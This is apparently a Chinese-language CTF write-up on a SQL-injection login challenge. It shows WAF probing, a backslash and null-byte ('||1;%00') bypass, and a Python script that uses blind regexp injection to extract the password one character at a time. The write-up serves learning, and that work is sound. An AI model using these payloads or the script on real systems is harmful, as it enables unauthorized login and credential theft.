



## 思路
1. 打开网页上显示的即为登录框和一个小提示，登录时的sql查询语句为常见的查询语句。说明这里后端使用的waf肯定比较厉害。
   


2. 常规测试，先正常登录看看，`admin`和`123`，网页会弹框提示hacker！！  但是`test`和`123`，网页就还是上面的登录框，只是提示的sql语句变为：`select * from users where username='test' and passwd='123'`

3. 这里感觉比较奇怪，因此可以找找看网页上是否还有其他提示信息。

   robots.txt提示hint.txt。

   hint.txt内容为：

   

4. 也可以使用burpsuite的intruder进行测试，探测waf到底会检测哪些关键字。如下，可以看出过滤了很多关键字。

   

5. 可以看出过滤了union select，虽然没有过滤转义符\，但过滤了'和#，因此无法直接像之前做过的[BJDCTF 2nd简单注入.md]([BJDCTF%202nd]简单注入.md)，需要一点改变。

6. 查看其他wp才知道php有的版本存在00截断漏洞，因此可以尝试00截断。

   `username=\` 和` passwd=||1;%00`

   > select * from users where username='**\\' and passwd=**'||1;%00'   
   >
   > 这里的1可以替换成一个为真的表达式，

   可以看到，这里的返回结果中location为welcome.php，与之前不同。说明注入成功。

   

   和之前思路一样，还是利用**1**部分的进行注入。substr、if这些关键字被过滤了，所以之前的方法也行不通。

   **新技巧！利用regexp正则注入**

   原理如图：

   

   7. 因此本题的脚本为：

      注意，上面bp的结果显示会过滤空格，所以这里使用/**/替代空格。

      ```python
      #coding:utf-8
      import requests
      import time
      import string
      url = ""
      str_list = "_" + string.ascii_lowercase + string.ascii_uppercase + string.digits
      
      payload = ''
      for n in range(100):
      	print(n)
      	for i in str_list:
      		data = {'username':'\\', 'passwd':'||passwd/**/regexp/**/"^{}";{}'.format(payload+i,chr(0))}
      		res = requests.post(url = url, data = data)
      		if 'welcome.php' in res.text:
      			payload += i
      			print(payload.lower())
      			break
      		elif res.status_code == 429:
      			time.sleep(1)
      ```

   8. 上面脚本会跑出passwd，但这里有个坑就是用户名不能是admin，密码需要全部转换成小写，再登录即可获取flag。
   9. 疑惑点：%00的问题
      1. 题目提示的黑名单中有%00，而使用bp时passwd参数末尾加上%00能注入成功
      2. 脚本中的%00，用chr(0)替代，或者使用\x00（？）


## 总结

- 本题的大致思路和[BJDCTF 2nd简单注入.md]([BJDCTF%202nd]简单注入.md)一致，唯一区别在于本题的**regexp注入**，是一个可以学习的点。后面的刷题过程也需要注重积累这种思想。
- 本题%00的问题。